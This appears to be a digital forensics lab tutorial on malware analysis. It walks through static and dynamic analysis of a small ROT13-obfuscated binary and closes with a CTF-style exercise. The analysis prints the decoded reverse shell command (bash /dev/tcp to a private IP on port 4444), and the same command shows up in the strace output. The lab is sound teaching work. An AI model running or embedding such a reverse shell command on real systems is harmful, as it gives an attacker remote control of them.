





# Malware Analysis

Malware, short for malicious software, is a term used to describe any software that causes harm or damage to a user, computer, network, or device. Malware can take many forms, including viruses, trojans, worms, spyware, adware, and ransomware. 

With the increasing reliance on technology and the internet, malware has become a prevalent threat to individuals and organizations alike, causing financial losses, data breaches, and system damage. As such, malware analysis has become a critical skill in digital forensics to help identify and mitigate these threats.

This lab serves as an introduction to different techniques and tools employed to analyze and understand the functionality and behavior of a malware.

# What Is Malware Analysis?

To quote the book "Practical Malware Analysis":

> Malware analysis is the art of dissecting malware to understand how it works, how to identify it, and how to defeat or eliminate it. And you don't need to be an uber-hacker to perform malware analysis.

Simply put, malware analysis is the process of analyzing and understanding malicious software in order to identify its behavior, characteristics, and potential impact on a system.

We can take two approaches when it comes to analyzing malware, Static Analysis and Dynamic Analysis.

## Static Analysis

Static analysis involves examining the binary code, disassembling the code, and reverse engineering. The goal of static analysis is to gain a high-level abstraction and determine if the code is potentially malicious. It is useful for identifying known malware families, as well as for developing antivirus signatures and other detection methods.

## Dynamic Analysis

Dynamic analysis is a method of analyzing malware by executing it in an isolated environment and observing its behavior, such as monitoring the system calls it makes, network connections it establishes, and its other interactions within the system. It is particularly useful for understanding how the malware interacts with the system and what it is designed to do.

> 💡 The key difference between the two approaches is that static analysis involves examining the code of the malware without executing it, while dynamic analysis involves running the malware in an isolated environment to observe its behavior.

# Getting Hands On

Now that we have a basic understanding of static and dynamic analysis, let's try them out in practice. The binary we will be analyzing is essentially a compiled version of C code available at [https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab 07/files/main.c](https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab%2007/files/main.c).

To begin, we can download the compiled binary using the following command:

```
wget https://github.com/vonderchild/digital-forensics-lab/raw/main/Lab%2007/files/main
```

## Initial Analysis

Before we begin our detailed analysis of the binary, it is important to identify the file type we're dealing with and extract low hanging fruits like embedded URLs, hardcoded IP addresses, or strings containing suspicious keywords.

To identify the type of file we're dealing with, let's run the `file` command:

```
$ file main
main: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ba2f226142eb8b7032264aab8c3386d1487bcb17, for GNU/Linux 3.2.0, not stripped
```

It appears that this binary was compiled with a GNU compiler. Let's use the `strings` command to extract all the human-readable strings from the binary:

```
$ strings main 
<SNIP>

onfu -p H
'onfu -vH
 >& /qriH
/gpc/192H
.168.0.1H
11/4444 H
0>&1f

<SNIP>
```

As can be seen, some of the extracted strings contain portion of an IP address `192.168.0.111`.

Other techniques often utilized during an initial analysis include checking if the file is packed or compressed, and searching for file signatures on platforms like [VirusTotal](https://www.virustotal.com/) to see if the file has been analyzed before.

> 💡 VirusTotal is a platform that allows us to analyze suspicious files, domains, IPs and URLs to detect and analyze malware and automatically share it with the security community.

## Static Analysis

For static analysis, we'll be using [Cutter](https://cutter.re/), a reverse engineering tool that can disassemble and decompile binaries. Cutter provides a debugger for dynamic analysis as well, although it's currently in beta as of the time of writing.

To download and run cutter, execute the following commands:

```
wget https://github.com/rizinorg/cutter/releases/download/v2.2.0/Cutter-v2.2.0-Linux-x86_64.AppImage
chmod +x Cutter-v2.2.0-Linux-x86_64.AppImage
./Cutter-v2.2.0-Linux-x86_64.AppImage --appimage-extract
./squashfs-root/AppRun
```

After the application is launched, click Select, and open the `main` binary file you had downloaded:


After that, click Open, and on the Load Options window, click Ok.



This should bring you to the dashboard tab that displays an overview of the binary we're analyzing including its format, file type, programming language, architecture, and hashes.



To inspect the code of a function, we can double click the function name in the left pane, and it should display the code's disassembled version:


To view the decompiled C code of the same function, select Decompile from the bottom pane, then Ghidra from the bottom-right:



It appears that the main function begins with declaring some variables, then it assigns them some values and calls the `caesar_decode` function, after which the `system` function is called, and then finally the main function returns.

> 🚧 The decompiled code may appear more complex than the original source code because it lacks the high-level abstractions, comments, and variable names present in the original source code, making it more challenging to comprehend.

Let's now take a look at what the `caesar_decode` does:



As suggested by its name, `caesar_decode` takes input a pointer to an array of `char` type and key of type `int`, then it decodes the array by iterating through it and utilizing the Caesar cipher.

In the main function, we see that `caesar_decode` is called with two parameters — a pointer to the string and the hexadecimal value of `0xd`, which translates to `13` in decimal. 

Therefore, we can infer that the key used in the Caesar cipher is 13, and we can use [CyberChef](https://gchq.github.io/CyberChef/) to decode from the hexadecimal representation of the string:


The recipe can be found [here](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,false)From_Hex('Auto')ROT13(true,true,false,13)&input=MHgyMDcwMmQyMDc1NjY2ZTZmCjB4NzYyZDIwNzU2NjZlNmYyNwoweDY5NzI3MTJmMjAyNjNlMjAKMHgzMjM5MzEyZjYzNzA2NzJmCjB4MzEyZTMwMmUzODM2MzEyZQoweDIwMzQzNDM0MzQyZjMxMzEKMHgzMTI2M2UzMAoweDI3).

This suggests that the string `bash -c 'bash -i >& /dev/tcp/192.168.0.111/4444' 0>&1` gets passed as input to the `system` function which then executes it to establish a reverse shell connection.

## Dynamic Analysis

For dynamic analysis, we can utilize tools such as `strace` or `ltrace` to monitor system calls and library calls made by the binary during runtime. Additionally, we can use tools like `Wireshark` or `tcpdump` to monitor network traffic generated by the binary.

To look for the system calls made by the binary, we can use `strace` like following:

```
$ strace ./main        
execve("./main", ["./main"], 0x7ffddfbd72d0 /* 57 vars */) = 0
brk(NULL)                               = 0x558fcb30e000

<SNIP>

clone3({flags=CLONE_VM|CLONE_VFORK, exit_signal=SIGCHLD, stack=0x7f9504944000, stack_size=0x9000}, 88) = 3874
munmap(0x7f9504944000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(3874, bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused

<SNIP>

exit_group(0)                           = ?
+++ exited with 0 +++
```

As can be seen, the first system call is made to `execve` to begin execution of the binary. After a few other system calls, it makes a system call to `clone3`, which then calls `execve` to execute the reverse shell command. Although it is not visible in the above output, but feel free to use the `-f` option in `strace` to see it for yourself.

Similarly, we can use `ltrace` to look for any library calls made by the binary:

```
$ ltrace ./main
bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
```

Although our particular binary does not seem to be making any library calls, but this technique is often useful.

Another way to perform dynamic analysis is to use Wireshark to monitor network traffic. To do this, we can start capturing packets and then execute the binary. This will allow us to observe any network connections the binary makes and analyze the data being sent and received:


We can see that the binary attempts to establish a reverse shell network connection from our host system with IP `192.168.0.106` to the host with IP `192.168.0.111` on port `4444`. However, the connection fails as the other host is not listening on that port.

# Utilizing VirusTotal

We can also upload our binaries to VirusTotal to gain additional insights about the file, such as whether it is associated with known malware families or if it has been previously analyzed.

Let's try uploading the binary we just analyzed to VirusTotal. Interestingly, none of the anti-virus engines on VirusTotal detect the file as malicious, likely because it wasn't designed to cause any harm to the system. 

The detailed analysis of the binary can be found at the following link: [https://www.virustotal.com/gui/file/e084c637e31a1d280200c25af8e86959874178f041f2ec9492bf066e72578490/](https://www.virustotal.com/gui/file/e084c637e31a1d280200c25af8e86959874178f041f2ec9492bf066e72578490/detection)



As a comparison, we can refer to the VirusTotal analysis of the widely known WannaCry ransomware available at the following link: [https://www.virustotal.com/gui/file/3ecc0186adba60fb53e9f6c494623dcea979a95c3e66a52896693b8d22f5e18b/](https://www.virustotal.com/gui/file/3ecc0186adba60fb53e9f6c494623dcea979a95c3e66a52896693b8d22f5e18b/)


# Conclusion

In conclusion, we have explored the basics of malware analysis and studied how to conduct static analysis and dynamic analysis using some basic techniques. However, it is important to note that there are a ton of other tools available that could have been used, such as:

- [Ghidra](https://ghidra-sre.org/)
- [Radare2](https://rada.re/n/)
- [IDA](https://hex-rays.com/ida-free/)
- [GDB](https://sourceware.org/gdb/)
- [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- [Process Hacker](https://processhacker.sourceforge.io/)

These tools have various features that can aid in malware analysis and provide deeper insights into the behavior of malicious software. For instance, Ghidra is a powerful reverse engineering tool that can be used to disassemble and decompile binaries. Radare2 is an open-source reverse engineering framework that supports multiple architectures and file formats. IDA is a popular disassembler and debugger that offers advanced features such as cross-references and function signatures. GDB is a widely used debugger for Linux systems that allows for low-level debugging of running programs. Procmon and Process Hacker can be used to monitor system activity in real-time, making it useful for detecting malware that attempts to hide its activity.

While we have only scratched the surface of malware analysis in this lab, it's important to note that there are many more advanced tools and methodologies out there that you can explore.

# Exercises

You work for a financial institution that has just been hit by a malware. Rumors suggest that the attacker left 4 different malware on the system, but only one of them is real, while the others are designed as rabbit holes to waste your time.

Luckily, the first responding team was able to collect all 4 samples. Your task is to analyze each of the 4 malware samples and extract any useful information out of them (preferably a flag).

The 4 files that you have to analyze are available at [https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab 07/files/tasks](https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab%2007/files/tasks).